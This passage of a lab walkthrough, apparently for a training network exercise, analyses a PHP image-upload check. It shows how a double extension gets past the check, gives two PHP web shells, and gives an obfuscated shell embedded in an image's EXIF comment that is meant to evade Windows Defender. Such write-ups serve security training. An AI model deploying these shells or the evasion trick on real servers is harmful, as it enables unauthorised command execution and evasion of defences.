 Returns resources.php, analyzing the code&#x20;

```
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

The second one is simple, it splits file name based on period and if the second argument is valid file format then safe so **dune.jpg.php** works

The size parameter is only derived from actual image files so we have to embed our php shell into an image file. Anyways once uploaded and try to access, the web browser will try to read it as php only since that is the file extension.

```
$target = "uploads/".basename($_FILES["file"]["name"]);
move_uploaded_file($_FILES["file"]["tmp_name"], $target);
```

Our file is uploaded in the uploads directory, that's where we access from

Heading to /resources

We know what to do but Windows Defender can be a pain in the ass, a standard payload from the web won't cut it.

Static detection is done by hashsum checking and byte matching, a small change to a public exploit may escape hashsum checks but when compared byte-wise, the meat of the exploit pretty much stays the same which is why we need to obfuscate our payload

Our payload can be either

```
<?php system($_GET["cmd"]);?>

<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

The second one is a bit more refined and offers clean output, now putting this in an online php obfuscator tool we get

```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" dune2.jpg.php
```
